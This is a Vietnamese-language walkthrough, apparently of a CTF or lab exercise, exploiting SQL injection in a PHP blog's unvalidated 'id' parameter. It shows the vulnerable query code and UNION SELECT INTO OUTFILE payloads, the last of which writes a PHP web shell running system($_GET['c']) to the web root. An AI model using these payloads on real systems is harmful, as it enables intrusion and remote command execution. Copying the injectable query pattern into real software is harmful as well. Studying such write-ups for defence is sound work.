 ```php
  </form>

<?php
  require("footer.php");

?>
```

Mình thấy ```$post = Post::find($_GET['id']);``` biến id đang không được validate điều này có thể dẫn đến lỗi SQL Injecton. 

Nhưng trước tiên mình xem hàm find trước đã

```php
function find($id) {
    $result = mysql_query("SELECT * FROM posts where id=".$id);
    $row = mysql_fetch_assoc($result); 
    if (isset($row)){
      $post = new Post($row['id'],$row['title'],$row['text'],$row['published']);
    }
    return $post;
  }
```

Trong hàm find cũng không có bất kỳ validate nào. 

# Khai thác SQL Injection

Mình thử với payload đơn giản ```'``` thì nhận được thông báo lỗi

![Imgur](https://i.imgur.com/0bHkXg0.png)

Ý tưởng của mình ở đây sẽ thử thực hiện sử dụng SQL Injection để lưu file trên server. 

```
-1 union select 1,"<?php phpinfo()>",3,4 into outfile "/var/www/css/info.php"#
```

![Imgur](https://i.imgur.com/ooOGMLN.png)

Mình có thể thực hiện lưu file nhưng có một lỗi ở đây 

Khi mình view trên server thì thấy file được lưu đã các số trong select column nữa.

![Imgur](https://i.imgur.com/mtpW0J2.png)

Mình sửa lại payload như sau: 

```
-1 union select "<?php ","system($_GET['c'])",";"," ?>" into outfile "/var/www/css/cmd.php"#
```
Và sau đó mình có 1 shell

![Imgur](https://i.imgur.com/InifSoO.png)
